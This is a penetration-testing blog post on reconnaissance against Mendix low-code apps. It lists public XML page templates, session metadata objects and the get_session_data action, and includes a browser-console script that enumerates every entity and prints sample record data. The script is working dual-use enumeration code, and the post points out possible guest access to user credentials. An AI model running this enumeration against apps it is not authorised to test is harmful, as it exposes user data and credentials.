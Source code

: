 ```yaml
---
title: Reconnaissance Guide for Mendix Applications 
date: 2025-10-28 00:00:00 +02:00
categories:
- Info Leakage
- recon
layout: post
excerpt: Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.
comments: true
thumbnail: japan.jpg
---
```




# Reconnaissance Guide for Mendix Applications 


## Introduction

Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.

## Mendix XML Template Files

These files serve as templates for various forms within Mendix applications, including login pages and file upload interfaces. They contain valuable reconnaissance information such as form fields and occasionally user role definitions. Notably, these XML files are publicly accessible, making them excellent targets for dictionary-based enumeration attacks to discover commonly named forms. You can access them at: `http://localhost:8080/pages/
	
![](/img/Pastedimage20251028165800.png)
![](/img/Pastedimage20251028165747.png)
	
 ## mx javscript library
```
// View session metadata. Entity
mx.session.sessionData.metadata 
// Check available microflows
mx.session.sessionData.microflows 
// Examine object types 
mx.session.sessionData.metadata[2]['objectType']
//Enumeation
mx.session.sessionData.enumerations
```
**List all accessible Entities**

```javascript
//list only object that has content
const objects = mx.session.sessionData.metadata
let obj=null
let objwithContent=[]
function getObject(obj) {
    //console.log(`Getting the content of the first object of ${obj}`);
    var innerobj=obj
    mx.data.get({
        xpath: `//${obj}`,
        callback: function(obj) {
            // Check here if obj is not empty
            if (obj.length != 0) {
                let attr = obj[0]['jsonData']['attributes'];
                console.log(`%cSample data of ${innerobj}:`, 'background-color: green')
                for (const key in attr) {
                    if (attr.hasOwnProperty(key)) {
                        console.log(` ${key}: ${attr[key]['value']}`);
                    }
                }
                objwithContent.push(obj)
            } else {
                console.log(`object ${obj} is empty`);
            }
        }
    }); 
}

//loop to every  object
for (const key in objects){ 
	console.log(objects[key]['objectType'])
	obj =objects[key]['objectType']
	//console.log(obj)
	getObject(obj)
	}

//list all accessible entities
objwithContent.forEach(function(element) {
  console.log(element[0].jsonData.objectType);
//console.log(element[0].jsonData);
});


```



![](/img/Pastedimage20251028172328.png)
![](/img/Pastedimage20251028172958.png)

**In certain cases, guest or anonymous users may gain access to the `System.user` entity, which holds sensitive credentials such as usernames and passwords.**


 ## get_session action
 
  you can also send an HTTP post request with `get_session_data` action
to get valuable information about the mendix app such as constants, data type, and fields. Fields and Data type are useful for other vulnerability such SQL injection   
![](/img/Pastedimage20251028163226.png)

**HTTP Response**


![](/img/Pastedimage20251028163607.png)

![](/img/Pastedimage20251028163641.png)

## widget

You can list all widgets on the https://app/widgets/.* Sometimes these widgets contain a JS library that is vulnerable to CVEs

  ![](/img/Pastedimage20251028162615.png)
  
  ![](/img/Pastedimage20251028162826.png)
